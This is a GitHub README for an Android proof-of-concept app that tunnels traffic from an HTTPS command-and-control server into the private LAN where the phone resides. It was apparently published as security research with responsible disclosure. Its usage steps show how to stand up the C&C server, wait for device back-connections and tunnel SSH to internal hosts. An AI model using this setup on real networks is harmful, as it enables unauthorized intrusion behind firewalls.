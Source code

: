 # Android2PrivateLAN
Android App to tunnel access from HTTPs C&amp;C server into Private LAN

Published on DeepSec 2020 conference
https://deepsec.net/docs/Slides/2020/Security_Model_Of_Endpoint_Devices_Martin_Kacer.pdf

## Disclaimer

The application has been released as prove of concept to demonstrate that the Android application with INTERNET permissions only could allow access into private networks. Responsible disclosure has been performed to Android Security program on 05/2020. Author does not undertake any responsibility for misapplication or illegal use of the application. Program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY.

## Communication flow

```
# Laptop ----- (8080/tcp)-----> HTTP_server <----(443/https polling)---- Android device ------ (XXX/tcp) -------> Private IP
```

![](https://github.com/H21lab/Android2PrivateLAN/blob/main/docs/ssh_tunneling.gif)

## How to use
```
# 1. Copy the http_server script to some server with public IP
#    Create there cert.pem and key.pem and place it into ./http_server folder
#
# 2. Change the IP addresses towards this public IP in Android apps
#
# ON SERVER:
# 3. Run the script there
# cd ./http_server
# sudo python3 http_server.py
#
# 4. Run Android app 
# wait for back connects from Android apps towards http server
# 
# 5. Check connected devices
# find ./http_server/
#
# 6. Instruct the http server to tunnel traffic over the connected Android towards target machine in the private LAN where the android resides
# sudo touch ./http_server/XXX.XXX.XXX.XXX/192.168.1.100\:22
#
# ON YOUR LAPTOP:
# 7. Establish SSH tunnel to the opened listener towards server 
# ssh -L 127.0.0.1:8080:127.0.0.1:8080  username@hostname
#
# 8. Connect tu the tunnel from your machine. Example for SSH traffic:
# ssh admin@127.0.0.1 -p 8080
```

## Attribution

This code was created by Martin Kacer

Copyright 2020 H21 lab, All right reserved, https://www.h21lab.com

